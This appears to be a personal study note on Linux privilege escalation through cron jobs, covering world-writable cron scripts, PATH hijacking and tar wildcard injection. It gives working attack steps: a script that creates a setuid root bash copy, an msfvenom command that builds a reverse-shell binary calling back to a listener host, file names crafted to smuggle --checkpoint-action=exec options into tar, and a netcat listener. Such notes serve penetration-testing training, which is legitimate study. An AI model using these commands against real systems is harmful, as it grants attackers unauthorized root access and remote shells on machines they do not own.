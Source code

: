 
2024-06-15 21:28

Tags: [[linux]]

#### Privilege Escalation

The system-wide crontab is located at `/etc/crontab`
##### File Permissions

1. view the contents of the system-wide crontab - `cat /etc/crontab`
2. Locate the (example file -  overwrite.sh) file on the server - `locate <file-name>`
3. Check the file’s permissions - Note that the file is world writable 
4. Replace the contents of the example file with a reverse shell
5. Run a netcat listener on your local machine and wait for the cron job to run.

##### PATH Environment Variable

- The system will check the directory locations in the path variable sequentially for cronjobs
1. view the contents of the system-wide crontab - `cat /etc/crontab`
2. Note that the `/home/user` directory (which we can write to) is at the start of the PATH variable, and the first cron job does not use an absolute path
3. Create the file overwrite.sh in `/home/user` with the [[rootbash]]:
```
	#!/bin/bash 
	cp /bin/bash /tmp/rootbash 
	chmod +s /tmp/rootbash
```
4. Ensure that overwrite.sh is executable
5. Once the `/tmp/rootbash` file is created, execute it (with -p to preserve the effective UID) to gain a root shell
##### Wildcard

- When a wildcard character `(*)` is provided to a command as part of an argument, the shell will first perform filename expansion (also known as globbing) on the wildcard.
- This process replaces the wildcard with a space-separated list of the file and directory names in the current directory.
- An easy way to see this in action is to run the following command from your home directory:
	$ echo *`

Since filesystems in Linux are generally very permissive with filenames, and filename expansion happens before the command is executed, it is possible to pass command line options (e.g. -h, --help) to commands by creating files with these names. 
The following commands should show how this works
```
$ ls * 
% touch ./-l 
$ ls *
```
- Filenames are not simply restricted to simple options like -h or --help. 
- In fact we can create filenames that match complex options: `--option=key=value` 
- GTFOBins (https://gtfobins.github.io) can help determine whether a command has command line options which will be useful for our purposes

in the example machine we have a cronjob named `/usr/local/bin/compress.sh`
cat the file and we see the contents of the file as
```
#!/bin/sh
cd /home/user
tar czf /tmp/backup.tar.gz *
```
on checking gtfo bins we find out there is a way to spawn a shell using tar using command line options. we can modify to our needs and spawn a reverse root shell back to our local machine 

on your local machine generate a [[Tags/revshell]] linux binary using msfvenom 
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.1.26 LPORT=53 -f elf -o shell.elf
```
- transfer the revshell to the target machine 
- create 2 other files in the home directory which will become command line args for the tar command when the wildcard is expanded 
```
touch ./--checkpoint=1
creates a checkpoint for every file that is processed

touch ./--checkpoint-action=exec=shell.elf\
defines an action to run at every checkpoint, in this case we want to execute the file
```
further set up a netcat listener(`nc -nvlp 53`) on your local device and wait for the cronjob to execute 
### References